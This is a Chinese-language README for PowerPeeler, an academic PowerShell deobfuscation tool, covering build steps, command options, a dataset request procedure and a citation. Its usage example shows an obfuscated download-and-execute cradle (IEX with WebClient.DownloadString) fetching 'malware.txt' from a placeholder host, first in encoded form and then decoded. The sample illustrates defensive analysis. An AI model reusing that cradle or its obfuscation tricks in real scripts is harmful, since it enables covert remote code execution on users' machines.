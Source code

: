 # PowerPeeler

>一款通用且精确的PowerShell脚本反混淆器



### 相关资料

- 会议版论文：in coming
- 完整版论文：[arxiv](https://arxiv.org/abs/2406.04027)



### 使用方法

1. 编译环境需求

   - 基本环境：参见[PowerShell官方编译指南](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. 运行环境

   - PSScriptAnalyzer（可选，用于代码格式化）
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)（可选，用于动静态结合反混淆）

3. 工具获取

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   或

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. 沙箱编译

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. 工具使用

   1. 切换目录，防止部分恶意脚本污染当前目录：```cd sandbox```
   2. 进入特殊pwsh环境：```../pwsh```
   3. 在特殊pwsh环境中执行反混淆脚本

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath 输入文件位置 --OutputPath 输出文件位置 [-cmd] [-log]
   ```
   ​	```-st --SettingType```	反混淆模式，有几种预设，可自行修改代码
   ​	```-ip --InputPath```	输入文件位置
   ​	```-op --OutputPath```	输出文件位置
   ​	```-cmd --IsCmd```	cmd一句话模式
   ​	```-log --SaveLog```	保存日志，可用于反混淆结构查看器



### 使用示例

> samples/unittest.ps1中包含了多种不同类型的测试样例，可参阅

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### 反混淆结构查看器

> 参考二进制反混淆的层级结构查看器

由于采用了直接变量替换，直接采用反混淆脚本存在部分反混淆过度的问题。为方便用户自行确定反混淆边界，```Deobfuscation/```下提供了一个简易的反混淆结构查看器。



### 数据集申请

如果你想要使用论文中提及的两个数据集D-Script和D-Cmdline，请邮件联系我。我的邮箱地址为chaihuajun@qianxin.com。同时，申请邮件需要满足下列要求：

- 申请邮件需要同时抄送我的导师yinglingyun@qianxin.com和你的导师。

- 在邮件正文中，需要表明数据集申请的目的及用途。

- 最后，邮件中需要明确表示所有由本数据集产生的成果必须引用我们的论文工作。

  

### 引用格式

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```




